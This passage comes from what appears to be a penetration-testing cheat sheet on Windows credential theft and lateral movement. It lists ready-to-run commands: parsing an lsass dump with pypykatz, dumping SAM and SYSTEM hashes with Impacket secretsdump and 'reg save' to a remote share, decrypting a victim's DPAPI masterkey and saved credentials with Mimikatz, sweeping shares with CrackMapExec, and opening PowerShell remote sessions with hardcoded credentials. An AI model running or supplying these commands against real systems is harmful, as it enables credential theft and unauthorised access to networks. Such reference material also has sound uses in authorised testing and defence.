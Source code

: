 ```
pypykatz lsa minidump lsass.dmp
```

#### SAM

##### Impacket
```
secretsdump.py <domain_name>/<user>:<password>@10.10.10.10
secretsdump.py <domain_name>/<user>@10.10.10.10 -hashes :<nt_hash>

# Locally
# Dump SYSTEM, SAM hives
reg save HKLM\SYSTEM \\10.10.10.150\share\SYSTEM
reg save HKLM\SYSTEM  \\10.10.10.150\share\SAM
secretsdump.py -sam SAM -system SYSTEM local
```

#### DPAPI

##### Mimikatz
From [mimikatz github](https://github.com/gentilkiwi/mimikatz/wiki/howto-~-credential-manager-saved-credentials)
```
# Check the details of the credential
.\mimikatz.exe "dpapi::cred /in:C:\Users\victim\AppData\Local\Microsoft\Credentials\12345678901234567890123456789012" exit

# Get victim security context (inject into user process or impersonnate with token)
# Decrypt the Masterkey using her password: Tip: if we are on a user's context using /rpc will auth with DC and will decrypt the masterkey!
.\mimikatz.exe "dpapi::masterkey /in:c:\Users\victim\AppData\Roaming\Microsoft\Protect\S-1-5-21-1313131313-8888888888-9999999999-1111\5f4b97cd-43aa-5e0f-26ab-fe63d801bbc4 /rpc" exit

Results: Masterkey:abcdef0123[...]4567890
SHA1 of masterkey:6b82b138e1a6b77f4c55a8df728288f56a3b6d5f

# Decrypt the credential
.\mimikatz.exe "token::elevate dpapi::cred /in:C:\Users\victim\AppData\Local\Microsoft\Credentials\12345678901234567890123456789012 /masterkey:6b82b138e1a6b77f4c55a8df728288f56a3b6d5f" exit
```
### Lateral Movement

#### CrackMapExec
```
# There are many ways to do that, here is an example
crackmapexec smb hosts.list -u <user> -p <password> --shares --continue-on-success
```
#### Powershell Remoting
```
# Enable Powershell Remoting on current Machine (need admin)
Enable-PSRemoting -force

# Create and enter into a new PSSession
$user = "DOMAIN\User" ;$s= "password";$ss = Convertto-securestring -string $s -AsPlainText -Force;$Credential = new-object -typename System.Management.Automation.PSCredential -argumentlist $user, $ss;

New-PSSession -Credential $Credential | Enter-PSSession
```
#### Rce with PS credentials
```
$user = "DOMAIN\User" ;$s= "password";$ss = Convertto-securestring -string $s -AsPlainText -Force;$Credential = new-object -typename System.Management.Automation.PSCredential -argumentlist $user, $ss;
```
